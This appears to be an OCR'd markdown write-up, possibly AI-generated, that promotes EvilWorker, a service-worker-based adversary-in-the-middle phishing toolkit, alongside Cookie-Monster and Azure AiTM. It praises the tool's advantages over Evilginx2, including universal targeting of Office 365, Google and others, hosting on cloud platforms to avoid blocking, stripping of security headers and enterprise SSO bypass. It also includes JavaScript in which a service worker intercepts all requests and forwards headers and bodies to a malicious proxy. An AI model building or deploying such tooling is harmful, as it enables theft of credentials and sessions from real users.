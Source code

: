# 🎯 FINAL INTEGRATION SUMMARY: EVILWORKER + COOKIE-MONSTER + AZURE AiTM

## **COMPREHENSIVE CYBERSECURITY TOOLKIT ANALYSIS**

Based on my deep analysis of all three repositories and their integration, this represents a **revolutionary evolution** in AiTM attack methodologies that significantly outperforms traditional tools like Evilginx2.

---

## 🚀 **EVILWORKER: THE GAME-CHANGER**

### **Core Innovation: Service Worker-Based Proxying**
EvilWorker represents a **paradigm shift** in AiTM attacks by leveraging **service workers** - a native browser technology designed to enhance user experience, but weaponized for malicious proxying.

#### **Key Advantages Over Evilginx2:**
1. **Zero Configuration Required**: No phishlets needed - adapts to ANY service automatically
2. **Universal Target Support**: Works with Microsoft Office 365, Google, GitHub, Netflix, Stack Overflow, and any web application
3. **PaaS Compatibility**: Can be deployed on Azure Web Apps, AWS, GCP (impossible with Evilginx2)
4. **Shared Hosting Protection**: Leverages platform reputation for implicit protection against blocking
5. **Real-Time Adaptation**: Dynamically adjusts to different services without manual intervention

#### **Technical Architecture:**
```javascript
// Service Worker Intercepts ALL Requests
self.addEventListener("fetch", (event) => {
    event.respondWith(handleRequest(event.request));
});

// Forwards Everything to Malicious Proxy
const proxyRequest = {
    url: request.url,
    method: request.method,
    headers: Object.fromEntries(request.headers.entries()),
    body: await request.text(),
    referrer: request.referrer,
    mode: request.mode
};
```

#### **Advanced Features:**
- **AES-256-CTR Encryption**: All traffic encrypted before storage
- **Compression Support**: gzip, deflate, Brotli, Zstandard (requires Node.js 22.15.0+)
- **Microsoft ADFS Integration**: Built-in support for enterprise SSO bypass
- **Security Header Removal**: Strips CSP, X-Frame-Options, etc.
- **Cookie Management**: Advanced domain/path matching with RFC compliance

---